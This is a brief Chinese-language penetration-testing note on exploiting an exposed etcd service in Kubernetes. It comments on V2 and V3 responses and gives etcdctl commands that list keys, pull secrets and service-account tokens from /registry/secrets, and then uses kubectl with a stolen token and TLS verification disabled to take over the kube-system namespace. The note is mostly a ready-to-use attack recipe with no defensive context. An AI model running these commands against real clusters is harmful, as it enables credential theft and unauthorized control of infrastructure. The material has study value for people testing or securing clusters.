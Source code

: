 V2版本返回所有的key-value值

![image-20231222085653333](..\..\images\a46b71d84c1fb7420527d7ea55cc5f76.png)

V3版本返回如下

![image-20241206160121814](..\..\images\image-20241206160121814.png)

需要使用工具：https://etcd.io/docs/v3.4/install/

```shell
# 获取k8s的secrets
./etcdctl --endpoints=https://ip:2379 get / --prefix --keys-only | grep sceret

# 获取用户指定token
./etcdctl --endpoints=https://ip:2379 get /registry/secrets/xxxx/xxx
./etcdctl --endpoints=https://ip:2379 get /registry/secrets/kube-system/xxx

# 通过token接管
kubectl --insecure-skip-tls-verify-s https://ip:6443 --token="ey..." -n kube-system get pods
```
